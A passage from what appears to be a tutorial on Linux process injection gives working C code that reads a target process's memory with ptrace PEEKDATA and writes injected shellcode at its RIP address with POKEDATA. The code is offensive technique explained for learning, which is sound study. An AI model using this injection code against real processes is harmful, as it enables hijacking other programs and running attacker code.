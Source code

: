 ```cpp
union data_chunk {
  long val;
  char bytes[sizeof(long)];
} chunk;
```

Then we read full `sizeof(long)` chunks:     

```cpp
int i = 0;
while (i < len / sizeof(long)) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
  i++;
}
```

As you can see, here, we reads a `long` (typically `8 bytes` on `64-bit` systems) from the target process at a specific memory address. Then, the read data is copied into the `buffer` using `memcpy`. This continues until all full `sizeof(long)` chunks are read.     

Then, handle remaining bytes:     

```cpp
int remaining = len % sizeof(long);
if (remaining) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
}
```

The logic is simple: if the length (`len`) is not a multiple of `sizeof(long)`, there may be leftover bytes to read. The function handles these remaining bytes by reading another full `long` from memory and copying only the necessary number of bytes into the buffer.     

So, as a result, the entire memory block (`len` bytes) from the target process starting at `addr` is now stored in `buffer`.      

With `PTRACE_POKEDATA`, we inject our custom shellcode into the target process's memory at the `RIP` address.     

```cpp
// write memory into the target process
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }
}
```

